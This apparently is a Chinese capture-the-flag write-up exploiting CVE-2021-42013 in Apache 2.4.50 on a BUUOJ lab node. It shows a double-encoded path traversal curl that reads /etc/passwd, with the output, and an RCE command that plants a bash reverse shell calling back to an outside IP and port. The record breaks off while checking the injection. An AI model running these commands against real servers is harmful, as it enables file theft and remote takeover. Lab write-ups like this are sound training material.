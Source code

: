 #### CVE-2021-42013

Apache 2.4.50 的修复并不彻底，虽然过滤了 `.%2e` `%2e%2e` 但是…… 二次编码仍然可以绕过。

`2` 的 URLEncode 结果为 `%32`，故我们可以用 `.%%32e` 或者 `%%32e%%32e` 进行路径穿越。

#### 路径穿越测试

访问 `http://node4.buuoj.cn:27256/icons/a.png` 得到图片，可知存在 `icons` 目录。

执行（`.%%32e/` 写多点以确保到达根目录）：

```bash
curl http://node4.buuoj.cn:27256/icons/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd
```

返回

```plain
root{?:}x{?:}0:0:root:/root:/bin/bash
daemon{?:}x{?:}1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin{?:}x{?:}2:2:bin:/bin:/usr/sbin/nologin
sys{?:}x{?:}3:3:sys:/dev:/usr/sbin/nologin
sync{?:}x{?:}4:65534:sync:/bin:/bin/sync
games{?:}x{?:}5:60:games:/usr/games:/usr/sbin/nologin
man{?:}x{?:}6:12:man:/var/cache/man:/usr/sbin/nologin
lp{?:}x{?:}7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail{?:}x{?:}8:8:mail:/var/mail:/usr/sbin/nologin
news{?:}x{?:}9:9:news:/var/spool/news:/usr/sbin/nologin
uucp{?:}x{?:}10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy{?:}x{?:}13:13:proxy:/bin:/usr/sbin/nologin
www-data{?:}x{?:}33:33:www-data:/var/www:/usr/sbin/nologin
backup{?:}x{?:}34:34:backup:/var/backups:/usr/sbin/nologin
list{?:}x{?:}38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc{?:}x{?:}39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats{?:}x{?:}41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody{?:}x{?:}65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt{?:}x{?:}100:65534::/nonexistent:/usr/sbin/nologin
```

测试成功！

#### RCE 测试

获取根目录下的 `flag` 文件失败，我们无从知道 flag 放到哪，文件名是什么，是否需要提权等。因此拿到 shell 是万全之策。

访问 `http://node4.buuoj.cn:27256/cgi-bin/printenv` 没有返回 `404`，可知存在 `cgi-bin` 目录，因此可实现远程代码执行获取 shell.

执行：

```bash
curl -v --data "echo;echo 'bash -i &> /dev/tcp/47.97.152.130/54188 0>&1'>> /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

其中 `47.97.152.130` 和 `54188` 分别为主控机 IP 和监听端口。

查看是否注入成功
